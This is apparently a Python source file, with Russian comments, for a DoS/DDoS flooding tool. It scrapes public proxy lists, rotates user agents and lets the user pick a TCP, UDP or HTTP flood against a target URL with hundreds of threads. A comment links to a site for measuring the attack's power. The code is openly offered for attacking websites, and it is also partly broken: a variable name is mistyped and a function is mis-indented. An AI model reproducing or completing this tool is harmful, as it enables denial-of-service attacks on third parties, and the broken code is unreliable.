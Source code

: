 
# -*- coding: utf-8 -*-
import urllib.request
import sys
from scapy.all import * 

import socket
import socks
import argparse
import threading
import random



author = "Жмышенко Валерий Альбертович 54 года"


ites = ["https://www.socks-proxy.net/","http://free-proxy-list.net/"] #Сайты откуда берем прокси
useragents = []
##Мощность DoS-а зависит от вашего интернет соеденения!!!
multiple = 100 # Умножение, значение можно менять
threads = 922 # Кол-во потоков, можно менять
choice1 = 0 
choice2 = 0 #Для настройки типа флуда
choice3 = 0 #Для настройки типа флуда
port = 80 # Порт куда будут слаться заросы, можно менять


parser = argparse.ArgumentParser()
parser.add_argument('-useragent', help = 'Путь до файла с user-агентами')
parser.add_argument('-proxylist', help = 'Путь до файла с proxy')
parser.add_argument('-url', help = 'Цель')
parser.add_argument('-getproxy', help = 'Получить прокси? 1 - да | 0 - нет')
args = parser.parse_args()
useragents_file = args.useragent
needproxy = args.getproxy
url = args.url
proxies_list = args.proxylist
if proxies_list == "": # Если прокси не указана закрыть программу
    print("Укажи прокси!")
    exit()
if useragents_file == "": # Если useragent-ы не указаны закрыть программу
    print("Укажи useragent-ов!")
    exit()
proxies = open(proxies_list).readlines() # Читаем прокси


###### Получение юзер агента с файла
handle = open(useragents_file)
for x in handle:
    useragents.append(x)
useragents = map(lambda s: s.strip(), useragents)
useragents = list(useragents)
######

def checkURL(): #Редактируем URL
    global url
    global url2
    global urlport


    try:
        if url[0]+url[1]+url[2]+url[3] == "www.":
            url = "http://" + url
        elif url[0]+url[1]+url[2]+url[3] == "http":
            pass
        else:
            url = "http://" + url
    except:
        print("Ошибка!")
        exit()

    try:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[0]
    except:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0]

    try:
        urlport = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[1]
    except:
        urlport = "80"




def getPROXY(urlproxy):
    try:
        req = urllib.request.Request(("{0}").format(str(urlproxy)))
        req.add_header("User-Agent", random.choice(useragents))
        sourcecode = urllib.request.urlopen(req)
        part = str(sourcecode.read())
        part = part.split("<tbody>")
        part = part[1].split("</tbody>")
        part = part[0].split("<tr><td>")
        proxies = ""
        for proxy in part:
            proxy = proxy.split("</td><td>") #Получаем прокси с сайта путем разделения тегов
            try:
                proxies=proxies + proxy[0] + ":" + proxy[1] + "\n"
            except:
                pass
        handle = open("proxy.txt","a") #Записуем полученные прокси в файл
        handle.write("")
        handle.write(proxies)
        handle.close()
        print ("Прокси скачаны успешно!")
    except:
        print ("Ошибка!")



if needproxy == "1": # Нужно ли качать прокси?
    #### Получение проксей
    for x in sites:
        getPROXY(x)
    ####


    def typeflood(): # Определяем тип флуда
    global choice1 #Для сайтов самый сильный - HTTP
    global choice2
    global choice3

    select = input("UDP или TCP или HTTP? => ")
    if select == "TCP":
        choice1 = "1" # Изначально программа была в интерактивном режиме
        choice2 = "y" # Но я убрал его, оставив лишь выбор метода флуда
        choice3 = "0" # Поэтому переменные называются choice))
    if select == "UDP":
        choice1 = "2"
        choice2 = "y" #Тестить мощь ваше DoS-а или DDoS-а можно здесь: https://www.vedbex.com/tools/dstat
        choice3 = "0"
    if select == "HTTP":
        choice1 = "0"
        choice2 = "y"
        choice3 = "0"
